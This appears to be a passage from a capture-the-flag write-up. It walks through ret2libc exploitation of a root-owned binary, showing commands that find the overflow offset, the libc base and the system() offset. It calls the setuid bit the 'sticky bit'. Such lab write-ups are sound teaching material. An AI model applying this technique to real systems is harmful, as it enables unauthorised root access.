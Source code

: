 ## Notice its permissions, any user can execute it and do it as root because the sticky bit is set.So if we invoke a shell using this binary we get root, let's try.

## we need 5 things to succeed.
### 1. The offset to overwrite EIP
### 2. libc base address
### 3. system call offset
### 4. exit call offset (optional)
### 5. string “/bin/bash”

## To get the offset i use pattern_create method and got a number of 52

## To get libc base address we use ldd and grep for libc.

```console
ldd /home/ayush/.binary/rop |grep libc
```

### Result

```console
www-data@frolic:~$ ldd /home/ayush/.binary/rop |grep libc 
ldd /home/ayush/.binary/rop |grep libc 
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000) 

```

## Now we need system call offset for libc we do

```console
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

### Result

```console
www-data@frolic:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system 
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system 
   245: 00112f20    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0 
   627: 0003ada0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE 
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

## same we do for exit function
